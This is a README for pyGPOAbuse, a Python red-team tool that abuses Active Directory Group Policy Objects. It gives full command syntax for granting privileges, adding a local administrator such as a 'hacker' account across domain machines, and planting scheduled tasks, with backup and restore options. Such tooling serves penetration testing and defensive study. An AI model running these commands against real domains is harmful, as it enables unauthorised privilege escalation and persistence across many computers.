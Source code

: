# pyGPOAbuse

A Python implementation of GPO Abuse techniques, inspired by [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse).

## Overview

This tool allows you to abuse Group Policy Objects (GPOs) in Active Directory environments. It provides the following capabilities:

1. Add user rights to an account in a GPO
2. Add a user to the local administrators group in a GPO
3. Add scheduled tasks to a GPO 
4. Backup a GPO before modification
5. Restore a GPO after modification

## Features

- **Add user rights**: Assign specific rights to a user account through GPO
- **Add local administrator**: Add a user to the local administrators group on all affected machines
- **Add scheduled tasks**: Create tasks in GPOs that will be executed on targeted computers/users
- **Backup/Restore GPOs**: Safely backup a GPO's state before modification and restore it later

## Usage

### General Syntax

```
python pygpoabuse.py <domain>/<username>[:<password>] [options]
```

### Authentication Options

```
-hashes LMHASH:NTHASH   Use NTLM hashes for authentication
-k                      Use Kerberos authentication
-dc-ip IP               Domain controller IP or hostname
-ldaps                  Use LDAPS instead of LDAP
-ccache FILE            ccache file for Kerberos authentication
```

### Adding User Rights

```
python pygpoabuse.py domain/username:password --add-rights -gpo-id "{GUID}" -rights "SeTcbPrivilege,SeBackupPrivilege" -user-account "targetuser"
```

### Adding Local Administrator

```
python pygpoabuse.py domain/username:password --add-local-admin -gpo-id "{GUID}" -user-account "targetuser"
```

This will add the specified user to the local administrators group on all computers where the GPO applies.

### Adding Scheduled Tasks

```
python pygpoabuse.py domain/username:password --add-task -gpo-id "{GUID}" -taskname "Maintenance" -command "cmd.exe" -user
```

Use `-user` to create a user GPO task, otherwise it will create a computer GPO task.

### Backing Up a GPO

Before making changes to a GPO, you can create a backup:

```
python pygpoabuse.py domain/username:password --backup-gpo -gpo-id "{GUID}" [-backup-dir "/path/to/backups"]
```

This will create a backup of the GPO and return a backup ID (also printed to the console). You can optionally specify a directory to store the backup with `-backup-dir`.

### Restoring a GPO

After you're done with your operations, you can restore the GPO to its original state:

```
python pygpoabuse.py domain/username:password --restore-gpo -backup-id "gpo_backup_{GUID}_{TIMESTAMP}"
```

Alternatively, you can specify the backup directory directly:

```
python pygpoabuse.py domain/username:password --restore-gpo -backup-dir "/path/to/backup_folder"
```

## Example Workflow

This example demonstrates a complete workflow for safely abusing a GPO:

1. First, backup the GPO:
```
python pygpoabuse.py domain/admin:password --backup-gpo -gpo-id "{GUID}"
```

2. Add a user as local administrator:
```
python pygpoabuse.py domain/admin:password --add-local-admin -gpo-id "{GUID}" -user-account "hacker"
```

3. After completing your operations, restore the GPO:
```
python pygpoabuse.py domain/admin:password --restore-gpo -backup-id "gpo_backup_{GUID}_{TIMESTAMP}"
```

## Credits

- This tool is a Python implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by @pkb1s
- Thanks to @airman604 for [schtask_now.py](https://github.com/airman604/schtask_now) that was used and modified in this project

